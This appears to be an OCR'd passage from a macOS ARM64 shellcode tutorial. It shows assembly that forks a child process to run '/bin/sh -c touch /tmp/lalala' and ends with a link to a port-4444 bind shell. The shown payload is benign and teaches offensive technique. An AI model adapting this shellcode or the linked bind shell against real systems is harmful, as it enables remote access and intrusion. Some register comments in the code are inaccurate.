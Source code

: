#### Invoke command with sh from a fork so the main process is not killed

```armasm
.section __TEXT,__text     ; Begin a new section of type __TEXT and name __text
.global _main              ; Declare a global symbol _main
.align 2                   ; Align the beginning of the following code to a 4-byte boundary

_main:
    ; Prepare the arguments for the fork syscall
    mov x16, #2            ; Load the syscall number for fork (2) into x8
    svc 0                  ; Make the syscall
    cmp x1, #0             ; In macOS, if x1 == 0, it's parent process, https://opensource.apple.com/source/xnu/xnu-7195.81.3/libsyscall/custom/__fork.s.auto.html
    beq _loop              ; If not child process, loop

    ; Prepare the arguments for the execve syscall

    sub sp, sp, #64        ; Allocate space on the stack
    mov x1, sp             ; x1 will hold the address of the argument array
    adr x0, sh_path
    str x0, [x1]           ; Store the address of "/bin/sh" as the first argument
    adr x0, sh_c_option    ; Get the address of "-c"
    str x0, [x1, #8]       ; Store the address of "-c" as the second argument
    adr x0, touch_command  ; Get the address of "touch /tmp/lalala"
    str x0, [x1, #16]      ; Store the address of "touch /tmp/lalala" as the third argument
    str xzr, [x1, #24]     ; Store NULL as the fourth argument (end of arguments)
    
    adr x0, sh_path
    mov x2, xzr            ; Clear x2 to hold NULL (no environment variables)
    mov x16, #59           ; Load the syscall number for execve (59) into x8
    svc 0                  ; Make the syscall


_exit:
    mov x16, #1            ; Load the syscall number for exit (1) into x8
    mov x0, #0             ; Set exit status code to 0
    svc 0                  ; Make the syscall

_loop: b _loop

sh_path: .asciz "/bin/sh"
.align 2
sh_c_option: .asciz "-c"
.align 2
touch_command: .asciz "touch /tmp/lalala"
```

#### Bind shell

Bind shell from [https://raw.githubusercontent.com/daem0nc0re/macOS\_ARM64\_Shellcode/master/bindshell.s](https://raw.githubusercontent.com/daem0nc0re/macOS\_ARM64\_Shellcode/master/bindshell.s) in **port 4444**
